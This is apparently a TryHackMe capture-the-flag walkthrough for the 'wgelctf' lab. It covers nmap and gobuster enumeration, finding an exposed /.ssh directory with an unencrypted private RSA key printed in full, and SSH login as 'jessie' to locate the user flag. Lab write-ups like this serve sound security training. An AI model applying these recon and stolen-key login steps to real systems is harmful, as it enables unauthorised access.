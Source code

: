# THM - wgelctf

## IP address
10.10.37.40

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.37.40
```
2. The name results will result as shown:
```
root@kali:~# nmap -p- -sV -sC -oN nmap/initial 10.10.37.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 04:16 UTC
Nmap scan report for ip-10-10-37-40.eu-west-1.compute.internal (10.10.37.40)
Host is up (0.00078s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:DB:E0:19:ED:D8 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.27 seconds
```
- Port ```22``` and port ```80``` is open.
- going to http://10.10.37.40:80 brings you to apache default page.

3. Explore other potential directories with gobuster.
```bash
#install gobuster if you dont have it already
sudo apt install gobuster

#run gobuster with dirbuster wordlists
gobuster dir -u http://10.10.37.40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

- You will notice that ```/sitemap``` is available.
```
/sitemap (Status: 301)
/server-status (Status: 403)
```

4. ```/sitemap``` will bring you to unapp template website. try running gobusters again on ```/sitemap```.
```bash
gobuster dir -u http://10.10.37.40/sitemap -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

- This will return a few more results:
```
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/sass (Status: 301)
```

5. Looking through the files, seems like there are not much information. We will try gobuster again with another wordlist txt.
```bash
gobuster dir -u http://10.10.37.40/sitemap -w /usr/share/wordlists/dirb/common.txt
```

- you will realised ```ssh``` is one of the available extension weirdly.
```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.ssh (Status: 301)
/.htaccess (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
```

- Navigating to ```/.ssh``` you will gain access to a private id_rsa.
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

- I used ```vi``` to save this as ```id_rsa```

6. We can use john to see if there is any password for this id_rsa.
```bash
/usr/share/john/ssh2john.py id_rsa
```
- You will noticed that there is no password for this private rsa key
```
root@kali:~# /usr/share/john/ssh2john.py id_rsa
id_rsa has no password!
```

7. Now we will need to find the user of the private rsa key.
- This took me a long time... But you will realised under the dev console for http://10.10.37.40 there is a comment.
```
<!--Jessie don't forget to udate the webiste-->
```

8. Lets try ssh using ```jessie``` as the user to see if can gain any access.
```bash
#make sure that the id_rsa can only be read by you.
chmod 600 id_rsa

#ssh into jessie
ssh -i id_rsa jessie@10.10.37.40
```

- You will gain access into ```jessie``` account. Now to find the user flag.
```bash
jessie@CorpOne:~$ find . -name user*
./.local/share/keyrings/user.keystore
./.config/user-dirs.locale
./.config/user-dirs.dirs
./.config/dconf/user
./Documents/user_flag.txt
jessie@CorpOne:~$ 
```
